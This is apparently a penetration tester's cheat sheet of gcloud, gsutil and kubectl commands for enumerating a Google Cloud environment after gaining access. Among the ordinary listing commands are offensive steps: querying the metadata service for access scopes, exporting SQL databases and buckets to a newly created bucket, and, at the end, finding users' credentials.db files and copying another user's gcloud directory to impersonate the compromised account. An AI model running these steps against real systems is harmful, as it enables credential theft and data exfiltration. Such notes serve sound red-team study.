 # Authenticated enumeration
-  Most GCP instances have Google Cloud SDK installed
-  ```gcloud``` CLI tool for managing auth, config, and interacting with GCP services
-  ``` gsutil``` CLI tool for accessing GCP storage buckets

## Manual enumeration
### Authentication
#### User identity login
```
gcloud auth login
```

#### Service account login
```
gcloud auth activate-service-account --key-file creds.json
```

### Basic enumeration
#### List accounts available to gcloud
```
gcloud auth list
```

#### Get account information
```
gcloud config list
```

#### List organizations
```
gcloud organizations list
```

#### Enumerate IAM policies set ORG-wide
```
gcloud organizations get-iam-policy <ORG ID>
```

#### List projects
```
gcloud projects list
```

#### Set a different project
```
gcloud config set project <PROJECT NAME> 
```

#### Gives a list of all APIs that are enabled in project
```
gcloud services list
```

#### Get source code repos available to user
```
gcloud source repos list
```

#### Clone repo to home dir
```
gcloud source repos clone <repo_name>
```

### Virtual machines
#### List other compute instances in the same project
```
gcloud compute instances list
```

#### Get shell access to instance
```
gcloud beta compute ssh --zone "<region>" "<instance name>" --project "<project name>"
```

#### Puts public ssh key onto metadata service for project
```
gcloud compute ssh <local host>
```

#### Get access scopes if on an instance
```
curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes -H &#39;Metadata-Flavor:Google’
```

#### Use Google keyring to decrypt encrypted data
```
gcloud kms decrypt --ciphertext-file=encrypted-file.enc --plaintext-file=out.txt --key <crypto-key> --keyring <crypto-keyring> --location global
```

### Storage Buckets
#### List storage buckets
```
gsutil ls
```

#### List storage buckets recursively
```
gsutil ls -r gs://<bucket name>
```

### Webapps & SQL
#### List webapps
```
gcloud app instances list
```

#### List SQL instances
```
gcloud sql instances list
gcloud spanner instances list
gcloud bigtable instances list
```

#### List SQL databases
```
gcloud sql databases list --instance <instance ID>
gcloud spanner databases list --instance <instance name>
```

#### Export SQL databases and buckets
- First copy buckets to local directory
```
gsutil cp gs://bucket-name/folder/ .
```

#### Create a new storage bucket, change perms, export SQL DB
```
gsutil mb gs://<googlestoragename>
gsutil acl ch -u <service account> gs://<googlestoragename>
gcloud sql export sql <sql instance name> gs://<googlestoragename>/sqldump.gz --database=<database name>
```

### Networking
#### List networks
```
gcloud compute networks list
```

#### List subnets
```
gcloud compute networks subnets list
```

#### List VPN tunnels
```
gcloud compute vpn-tunnels list
```

#### List Interconnects (VPN)
```
gcloud compute interconnects list
```

### Containers
```
gcloud container clusters list
```

#### GCP Kubernetes config file ~/.kube/config gets generated when you are authenticated with gcloud and run:
```
gcloud container clusters get-credentials <cluster name> --region <region>
```

#### Get cluster info
- If successful and the user has the correct permission the Kubernetes command below can be used to get cluster info:
```
kubectl cluster-info
```

#### Serverless
#### GCP functions log analysis 
- May get useful information from logs associated with GCP functions
```
gcloud functions list
gcloud functions describe <function name>
gcloud functions logs read <function name> --limit <number of lines>
```

#### GCP Cloud Run analysis
- May get useful information from descriptions such as environment variables.
```
gcloud run services list
gcloud run services describe <service-name>
gcloud run revisions describe --region=<region> <revision-name>
```

#### Search home directories
- Gcloud stores creds in ~/.config/gcloud/credentials.db
```
sudo find /home -name "credentials.db
```

### Auth as compromised user
- Copy gcloud dir to your own home directory to auth as the compromised user
```bash
sudo cp -r /home/username/.config/gcloud ~/.config
sudo chown -R currentuser:currentuser ~/.config/gcloud
gcloud auth list
```

